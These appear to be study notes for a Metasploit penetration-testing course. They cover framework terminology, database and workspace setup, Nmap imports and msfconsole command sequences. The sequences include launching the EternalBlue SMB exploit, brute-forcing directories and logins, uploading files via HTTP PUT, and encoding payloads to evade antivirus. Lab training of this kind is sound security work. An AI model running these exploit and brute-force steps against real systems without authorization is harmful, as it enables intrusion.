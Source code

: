 Course Topic Overview
=
- introduction to The Metasploit Framework
- Metasploit Fundamentals
- Information Gathering & Enumeration with MSF
- Vulnerability Scanning with MSF
- Client-Side Attacks with MSF
- Host and service based exploitation with MSF
- Post Exploitation with MSF
- Metasploit GUIs (Graphical User Interface)

### Metasploit

The Metasploit Framework (MSF) is an open source robust penetration testing and exploitation framework that is used by penetration testers and security researchers worldwide

- it provides penetration testers with a robust infrastructure required to automate every stage of the penetration testing life cycle
- it is also used  to develop and test exploits and has one of the world's largest database of public tested  exploits

Essential Terminology

- interface  - methods of interfacing with the Metasploit Framework
- Module - Pieces of code that perform a particular task an example of a module is an exploit
- Vulnerability - weakness or flow in a computer system or network that can be exploited
- Exploit - Piece of code/module that is used to take advantage a vulnerability within a system service or application
- Payload - Piece of code delivered to the target system by an exploit with the objective of executing 
- Listener - A utility that listens for an incoming connection from a target


### Metasploit Framework Architecture


- module in the context of MSF is a piece of code that can be utilized by the MSF
INTERFACES | msfconsole, msfcii, armitage, web
LIBARIES | rex > Tools, MSF core, MSF base> Plugins
MODULES | exploit, payload, encoder, nop, auxiliary

### MSF Modules

- Exploit - module that is used to take advantage of vulnerability and is typically paired with a payload 
- Payload - Code that is delivered by MSF and remotely executed on the target after successful exploitation
- Encoder - Used to encode payloads in order to avoid AV detection for example shikata_ga_nai used to encode windows payloads
- NOPS - used to ensure that payloads sizes are consistent and ensure the stability of a payload when executed
- Auxiliary - module that is used to perform additional functionality like port scanning and enumeration 

meterpreter payload is an advanced multi-functional payload the is executed in memory on the target system making it difficult to detect

MSF stored module under the following directory on Linux systems:
	 /usr/share/metasploit-framework/modules
User specified modules are stored under the following directory on Linux Systems;
	~/.ms4/modules

Penetration Testing with the Metasploit Framework
- msf can be used to perform and automate various tasks that fall under the penetration testing life cycle
Penetration testin phases
- information gathering >> auxiliary modules
- enumeration >> auxiliary modules
- exploitation >> exploit modules , payloads
	- post-exploitation - privilege escalation, maintaining persistent access, clearing tracks > post exploitation modules meterpreter, persistence


### Metasploit Fundamentals
database msfdb is an integral part of the Metasploit framework and is used to keep track of all your assessments host data scans etc 

the metasploit framework uses PostgreSQL as the priamry database server as a result as will also need to ensure that the postgresql database server is running and configured correctly

the metasploit framework database also facilitates the importation and storage of scan results from various third party tools like Nmap and Nessus

- sudo apt-get update && apt-get install metasploit-framework -y
- sudo systemctl status postgresql 
- sudo msfdb
- sudo msfdb init

### MSFconsole Fundamentals

What You need to Know
- how to search for modules
- how to select modules
- how to configure module options and variables
- how to search for payloads
- managing sessions
- additional functionality
- saving your configuration

Variables
	LHOST ur local host ip
	LPORT ur port
	RHOST ip of the target 
	RHOSTS ip of the targets
	RPORT port of the target

	msfconsole
	versions
	show exploits
	show -h 
	use auxiliary/scanne/portscan/tcp
	show options
	set RHOSTS ip
	back
	search -h
	search cve:2017 type:exploit platform:windows
	search eternalblue
	use exploit/windows/smb/ms17_010_eternalblue
	set RHOSTS ip
	show options
	exploit
	back
	sessions
	connect -h
	connect ip


### Creating and Managing Workspaces
workspace allow you to keep track of all your hosts scans and activates and are extremely useful when conducting penetration tests as they allow you to sort and organize your data based on the target or organization MSFconsole provide you with the ability to create, manage and switch between multiple workspaces depending on your requirements

	db_status
	workspace -h
	hosts
	workspace -a Test
	hosts
	workspace default
	workspace -a INE
	workspace Test
	workspace default
	workspace -d Test
	workspace -h
	workspace -r INE PTA
	


### Nmap with Metasploit (Information Gathering and Enumeration)

Port Scanning and Enumeration with Nmap
Nmap if a free and open source network scanner that can be used to discover hosts on a network as well as scan targets for open ports

- it can also be used to enumerate the services running on open ports as well as the operating system running on the target system
- we can output the result of our nmap scan in to a format that can be imported into MSF for vulnerability detection and exploitation

nmap -Pn -sV -O ip -oX windows_server_2012

### Importing Nmap Scan results into MSF
	service postgresql start
	msfconsole
	db_status
	workspace -a Win2k12
	db_import /root/windows_server_2012
	hosts
	workspace -a Nmap_MSF
	db_nmap -Pn -sV -O ip
	vulns

### Importing Nmap Scan Results into MSF Lab
	service postgresql start
	msfconsole
	db_status
	db_import /root/windows_server_2012
	hosts
	services

### Web server Enumeration
	ifconfig
	service postgresql start
	msfconsole
	setg RHOSTS ip
	search http
	search type:auxiliary name:http
	use auxiliary/scanner/http/http_version
	show options
	exploit
	search http_header
	use auxiliary/scanner/http/http_header
	exploit
	use auxiliary/scanner/http/robots.txt
	exploit
	use auxiliary/scanner/http/http_header
	set TARGETURl /secure
	exploit
	use auxiliary/scanner/http/brute_dirs
	exploit
	use auxiliary/scanner/http/dir_scanner
	set DICTIONARY /usr/share/metasploit-framework/data/wordlists/directory.txt
	exploit
	use auxiliary/scanner/http/dir_listing
	set PATH /data
	exploit
	use auxiliary/scanner/http/files_dir
	set VERBOSE false
	exploit
	use auxiliary/scanner/http/http_put
	set PATH /data
	set FILENAME test.txt
	set FILEDATA "Welcome To AttackDefense"
	exploit
	use auxiliary/scanner/http/http_put
	set PATH /data
	set FILENAME test.txt
	set ACTION DELETE
	exploit
	use auxiliary/scanner/http/http_login
	set AUTH_URl /secure/
	set VERBOSE false
	exploit
	use auxiliary/scanner/http/apache_userdir_enum
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set VERBOSE false
	exploit







